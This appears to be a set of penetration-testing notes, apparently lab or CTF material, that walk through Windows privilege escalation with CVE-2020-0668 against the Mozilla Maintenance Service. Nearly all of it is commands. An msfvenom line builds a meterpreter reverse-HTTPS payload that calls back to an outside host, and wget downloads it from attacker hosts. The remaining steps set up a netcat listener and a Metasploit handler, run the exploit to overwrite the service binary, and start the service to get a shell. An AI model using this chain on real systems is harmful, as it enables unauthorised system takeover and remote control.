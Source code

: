 https://github.com/RedCursorSecurityConsulting/CVE-2020-0668
## Maintenanceservice.exe
### Checking Permissions of Binary
```
icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```
### Payload
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe
```
### Listener
```
nc -lvnp 8443
```
### Transfer the payload (create two copys)
```
wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice.exe
wget http://10.10.14.214:8080/maintenanceservice.exe -O maintenanceservice2.exe
```
### Execute the payload
```
C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\tools\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```
### Check permissions to the new file
```
icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```
### Replacing File with Malicious Binary
```
copy /Y C:\tools\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```
### MSFConsole
```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <our_ip>
set LPORT 8443
exploit
```
### Start the service
```
net start MozillaMaintenance 
```
 # Vulnerable Services
### Enumerating Installed Programs
```
wmic product get name
```
### Enumerating local ports
```
netstat -ano | findstr 6064
```
### Enumerating Process ID
```
```